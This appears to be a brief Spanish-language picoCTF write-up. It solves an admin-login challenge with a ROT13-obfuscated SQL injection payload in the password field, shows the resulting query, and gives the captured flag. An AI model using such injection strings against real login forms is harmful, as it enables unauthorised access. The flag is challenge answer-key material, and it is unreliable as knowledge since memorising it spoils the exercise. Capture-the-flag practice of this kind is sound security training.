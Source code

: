 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
## Solución
```

Entramos a la página que nos manda el reto y en el apartado del menu seleccionamos "Admin Login".
En el password ponemos lo siguiente:
password: ' be 1==1;

y lo que nos salga lo rotamos en la paguina cyberchef copiamos lo que sale en mi caso
SQL query: SELECT * FROM admin where password = '' or 1==1;'

lo copiamos y lo pegamos en password para que nos de la bandera.
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```
## Bandera
```
picoCTF{3v3n_m0r3_SQL_7f5767f6}
```
## Referencias
https://gchq.github.io/CyberChef/